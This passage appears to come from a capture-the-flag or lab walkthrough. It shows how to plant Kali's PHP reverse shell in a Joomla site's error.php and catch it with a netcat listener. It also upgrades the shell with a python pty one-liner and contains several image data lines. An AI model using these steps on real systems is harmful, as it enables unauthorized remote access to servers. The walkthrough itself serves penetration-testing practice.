




4.2 Inject Web Shell
1. Copy from you Kali Machine “/usr/share/webshells/php/php-reverse-shell.php” file the content.
2. Paste the code at the top of the file>.
3. Change $ip = '127.0.0.1'; to $ip = '192.168.12.10'.

4. Save the file.

5. On you Kali Machine run the following code.
$nc -lvp 1234
6. Visit the http://192.168.12.38/joomla/index.php<> page. As the page doesn't exist it'll call the “error.php” page and the Webshel will run.
7. On your “netcat” connection you'll have a Reverse Shell.
Output:

8. Upgrade it with python. Run the following commands on your “Reverse Shell”.
python3 -c 'import pty;pty.spawn("/bin/bash")'
Output:
